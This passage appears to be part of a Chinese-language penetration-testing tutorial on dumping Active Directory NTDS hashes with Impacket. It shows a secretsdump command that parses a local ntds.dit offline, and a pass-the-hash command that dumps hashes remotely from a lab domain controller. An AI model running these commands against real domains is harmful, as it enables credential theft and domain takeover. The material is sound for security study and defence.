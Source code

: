 #### [NDTS Hash](#toc_ndts-hash)

##### [Impacket](#toc_impacket)

我们可以使用 impacket 工具包中的 secretsdump 来解析 ntds.dit 文件并导出散列：

`./secretsdump.py -system /root/system.hive -ntds /root/ntds.dit LOCAL`

[![image.png](assets/1698894155-b70702c42a190d6f2b5fd9027559b500.png)](https://storage.tttang.com/media/attachment/2022/09/30/4f2d314a-f515-4e32-ad20-48804d3f3c3c.png)

impacket 还可以直接通过用户名和散列值进行验证，从远程域控制器中读取 ntds.dit 并转储域散列值：

`./secretsdump.py -hashes aad3b435b51404eeaad3b435b51404ee:41945356c1b2adde08c00d0e48515b7e -just-dc hacke.testlab/administrator@192.168.188.2`

[![image.png](assets/1698894155-34149bce3f4cdfd25a898c6da0b3b782.png)](https://storage.tttang.com/media/attachment/2022/09/30/894f88f1-e898-4bfa-a0bb-e868663e8d98.png)
